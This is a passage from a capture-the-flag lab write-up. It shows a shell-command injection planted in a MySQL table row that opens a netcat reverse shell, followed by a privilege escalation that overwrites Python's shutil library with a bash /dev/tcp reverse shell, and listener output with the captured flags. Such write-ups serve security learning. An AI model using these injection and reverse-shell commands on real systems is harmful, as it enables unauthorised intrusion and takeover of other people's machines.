 ```bash


mysql> select * from dreams;
+---------+-----------------------------------------------------------+
| dreamer | dream                                                     |
+---------+-----------------------------------------------------------+
| Alice   | Flying in the sky                                         |
| Bob     | Exploring ancient ruins                                   |
| Carol   | Becoming a successful entrepreneur                        |
| Dave    | Becoming a professional musician                          |
| NoBody  | $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.162.183 1337 >/tmp/f) |
+---------+-----------------------------------------------------------+
5 rows in set (0.00 sec)

```

We setup a listener with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) and try to execute getDreams.py again :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.83.170] 44354
$ whoami
death
$ ls
death_flag.txt
getDreams.py
$ cat death_flag.txt
THM{1M_TH3R3_4_TH3M}
```

We have a [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) as death.

## Death to Morpheus

Now we have to modify the `shutil` lib of [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) to get a Morpheus [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) :

`echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/10.8.162.183/4444 0>&1'\")" > /usr/lib/python3.8/shutil.py`

Wait morpheus to launch restore.py & got the [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.83.170] 47820
bash: cannot set terminal process group (1546): Inappropriate ioctl for device
bash: no job control in this shell
morpheus@ip-10-10-83-170:~$ cat morpheus_flag.txt
cat morpheus_flag.txt
THM{DR34MS_5H4P3_TH3_W0RLD}
```

Pwned .